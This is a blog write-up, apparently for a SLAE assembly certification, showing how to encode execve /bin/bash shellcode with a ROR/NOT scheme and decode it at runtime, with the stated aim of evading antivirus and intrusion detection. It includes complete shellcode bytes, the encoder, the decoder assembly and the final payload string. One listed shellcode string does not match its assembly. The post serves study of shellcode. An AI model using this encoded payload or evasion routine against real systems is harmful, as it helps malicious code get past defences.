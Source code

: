 ```yaml
---
layout: post
title:  "SLAE Assignment 4 - Encoding/Decoding Shellcode"
date:   2017-04-23
categories: certification
excerpt_separator: <!--more-->
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 4:  
  
Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment4).  
  
**Our Goal:**  
> *Create a custom encoding scheme*
 - *POC with using the execve-stack as the shellcode*  
<!--more-->
  
Hello everybody,  
  
Today we will create an encoded shellcode and its decoding routine.  Encoding a shellcode is useful to bypass Antivirus or Intrusion Detection Systems. Our resulting shellcode and its opcodes will have no meaning at all if the encoding scheme if robust enough (for example avoid classic XOR encoding).  
  
For each byte, our encoding scheme will consists in:  
 - Rolling four bits to the right (ROR instruction)  
 - Getting the complement of that byte (NOT)  
  
We will apply this encoding scheme on the following execve **/bin/bash** stack shellcode:  
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH ////bin/bash (12) 

	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```  
  
Testing the execve stack shellcode provides a /bin/bash prompt indeed:  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c  && ./shellcode
Shellcode Length:  30
root@kali:/root/Documents/pentest/certs/slae/exam/assignment4# id
uid=0(root) gid=0(root) groups=0(root)
```  
  
Execve stack shellcode looks like:  
```bash
\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Let's now create our encoding routine ([shellcode_encode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode_encode.c)):  
```c
#include <stdio.h>
#include <string.h>

// execve stack shellcode
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// print shellcode
void print_shellcode(){

	printf("Length %d\n",sizeof(shellcode));
	for (int i=0; i<strlen(shellcode); i++) {
		printf("\\x%02x", shellcode[i]);
	}
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		printf("0x%02x,", shellcode[i]);
	}
}

void main()
{

	int	rotate = 4;	// rotate 4 bits to the right

	// print initial shellcode
	printf("Initial shellcode\n");
	print_shellcode();
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		shellcode[i] = (shellcode[i] >> rotate) | (shellcode[i] << (8-rotate));	// ror method
		shellcode[i] = ~shellcode[i]; // one's complement 
	}

	// print encoded shellcode
	printf("\nEncoded shellcode\n");
	print_shellcode();
	printf("0xaa"); // marker for the end of encoded shellcode
	printf("\n");

}
```
  
The encoded execve stack shellcode is the following:  
```bash
0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```
  
Let's create the decoding nasm shellcode [shellcode_decoder.nasm](https://github.com/phackt/slae/tree/master/assignment4/shellcode_decoder.nasm):  
```nasm
global _start			

section .text
_start:

	jmp short call_shellcode    ; jmp, call, pop technique

decoder:
	pop esi

decode: 
	xor eax, eax
	xor ebx, ebx
	mov al, byte [esi]          ; we move the byte to be decoded
	not al                      ; one's complement
	rol al, 4                   ; rolling on left to decode the rolling on right encoding
	mov byte [esi], al          ; saving the decoded byte

	lea esi, [esi + 1]          ; next byte   
	mov bl, [esi]  
	cmp bl, 0xaa                ; looking for the end of encoded shellcode
	je short EncodedShellcode   ; we jump to the decoded shellcode
	jmp short decode            ; keeping on decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```  
  
Let's assembly, link and get the decoding shellcode:  
```bash
# ./compile.sh shellcode_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./shellcode_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1a\x5e\x31\xc0\x31\xdb\x8a\x06\xf6\xd0\xc0\xc0\x04\x88\x06\x8d\x76\x01\x8a\x1e\x80\xfb\xaa\x74\x07\xeb\xe7\xe8\xe1\xff\xff\xff\xec\xf3\xfa\x79\xd9\xe9\xc8\x79\x79\xd9\x69\x19\x0d\x79\x0d\x0d\x0d\x0d\x67\xc1\xfa\x67\xd1\xca\x67\xe1\xf4\x4f\x23\xf7\xaa"
```
  
Let's update the [shellcode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode.c) file and execute our decoding shellcode:  
![image1]({{ site.url }}/public/images/slae/assignment4/image1.png)  
  
Remember that running our shellcode thanks to shellcode.c is useful because our shellcode will be located into the writable .data segment.  
If we directly execute the shellcode_decoder executable, it will result in a segmentation fault because it will try to rewrite the EncodedShellcode variable located in the non writable .text segment (also useful to use the jmp/call/pop technique in order to avoid null bytes and to dynamically get the address of our encoded shellcode).  
  
We did not test it on [VirusTotal](https://www.virustotal.com/) in order to avoid the fingerprinting of the encoding scheme.  
  
Hope you enjoyed this post, don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)
